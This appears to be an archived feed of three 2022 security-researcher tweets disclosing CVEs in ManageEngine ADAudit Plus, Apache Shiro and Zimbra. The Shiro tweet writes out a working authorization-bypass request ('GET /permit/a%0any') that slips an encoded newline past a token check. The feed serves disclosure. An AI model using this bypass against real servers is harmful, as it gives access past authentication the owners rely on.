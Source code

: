 
# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1542136953004609536 _at 2022-06-29, 13:24:35_**
<blockquote>
Check out a recent finding by one of our own, Naveen Sunkavally. CVE-2022-28219 is an unauth RCE for ManageEngine ADAudit Plus. 

This XXE -&gt; Deserialization chain often leads to host compromise as well as priv'd AD creds. Check out the blog post and POC: https://t.co/bLHzhvSnLo
</blockquote>

* https://www.horizon3.ai/red-team-blog-cve-2022-28219

<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>268</code></td>
<td>Favorites: <code>739</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1542016765030707206 _at 2022-06-29, 05:27:00_**
<blockquote>
Apache Shiro CVE-2022-32532
This request can succeed

GET /permit/any HTTP/1.1
Token: momika
Access is not allowed when there is no token request header

GET /permit/any HTTP/1.1
It can be bypassed in a simple way in special but common configurations

GET /permit/a%0any HTTP/1.1
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>180</code></td>
</tr></table>

---

# scannell_simon
**https://twitter.com/scannell_simon/status/1541800107909185537 _at 2022-06-28, 15:06:05_**
<blockquote>
⚠️ Zimbra Mail pre-auth RCE via Path Traversal bug in unrar (CVE-2022-30333).  This is probably my most impactful bug so far, especially after Zimbra has been the target of a 0day campaign likely conducted by a state actor. More details in this blog post: https://t.co/8v0ujC1Nyl https://t.co/VZQm0NdqnU
</blockquote>
